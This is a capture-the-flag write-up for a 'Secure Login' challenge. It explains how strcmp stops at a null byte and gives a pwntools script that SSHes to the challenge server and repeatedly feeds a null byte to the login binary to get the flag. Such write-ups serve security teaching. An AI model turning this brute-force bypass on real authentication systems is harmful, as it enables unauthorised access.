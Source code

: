 # Secure Login

## Description

My login is, potentially, and I don't say this lightly, if you know me you know that's the truth, it's truly, and no this isn't snake oil, this is, no joke, the most secure login service in the world (source).

Try to hack me at /problems/2021/secure_login on the shell server.

## Solution

Let's take a look to the code:

![image](https://user-images.githubusercontent.com/72620139/114243744-6d697b80-998d-11eb-8a49-1560e698e80c.png)


The function fgets, doesn't seem vulnerable... But strcmp starts comparing the first character of each string. If they are equal to each other, it continues with the following pairs until the characters differ or until a terminating null-character is reached. 
So if the two strings starts with the string terminator the function will return 0 because the two strings match up to the null character.

We reach our goal! Let's write the script:
````
from pwn import *

#connection
conn = ssh(host='shell.actf.co', user='team', password='pw')
conn = conn.shell('/bin/bash')
conn.sendline('cd /problems/2021/secure_login')

#waiting for the magic
for x in range(1000):
	conn.sendline('./login')
	conn.recvuntil(': ')
	conn.sendline(b'\x00')
	print(conn.recvline())

conn.interactive()
conn.close()
````


#### **FLAG >>** `FLAG QUI`
